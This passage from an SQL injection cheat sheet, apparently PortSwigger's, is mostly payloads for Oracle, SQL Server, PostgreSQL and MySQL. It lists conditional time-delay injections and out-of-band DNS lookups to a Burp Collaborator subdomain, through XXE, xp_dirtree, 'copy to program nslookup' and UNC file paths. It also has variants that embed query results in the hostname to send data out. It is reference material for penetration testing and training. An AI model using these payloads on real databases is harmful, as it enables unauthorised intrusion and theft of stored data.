 | Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| ---------- | ---------------------------------------------------------------------------------------------------------------- |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`                                                                |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`                                  |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`                                                                   |

### DNS lookup <a href="#dns-lookup" id="dns-lookup"></a>

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

<table data-header-hidden><thead><tr><th width="210.5"></th><th></th></tr></thead><tbody><tr><td>Oracle</td><td><p>(<a href="https://portswigger.net/web-security/xxe">XXE</a>) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:</p><p><code>SELECT EXTRACTVALUE(xmltype('&#x3C;?xml version="1.0" encoding="UTF-8"?>&#x3C;!DOCTYPE root [ &#x3C;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual</code></p><p>The following technique works on fully patched Oracle installations, but requires elevated privileges:</p><p><code>SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')</code></p></td></tr><tr><td>Microsoft</td><td><code>exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'</code></td></tr><tr><td>PostgreSQL</td><td><code>copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'</code></td></tr><tr><td>MySQL</td><td><p>The following techniques work on Windows only:</p><p><code>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')</code><br><code>SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></p></td></tr></tbody></table>

### DNS lookup with data exfiltration <a href="#dns-lookup-with-data-exfiltration" id="dns-lookup-with-data-exfiltration"></a>

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

| Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`                                                                                                                                                                                                                                        |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`                                                                                                                                                                                                                                                                                                                               |
| PostgreSQL | <p><code>create OR replace function f() returns void as $$</code><br><code>declare c text;</code><br><code>declare p text;</code><br><code>begin</code><br><code>SELECT into p (SELECT YOUR-QUERY-HERE);</code><br><code>c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';</code><br><code>execute c;</code><br><code>END;</code><br><code>$$ language plpgsql security definer;</code><br><code>SELECT f();</code></p> |
| MySQL      | <p>The following technique works on Windows only:<br><code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></p>                                                                                                                                                                                                                                                                                                                |
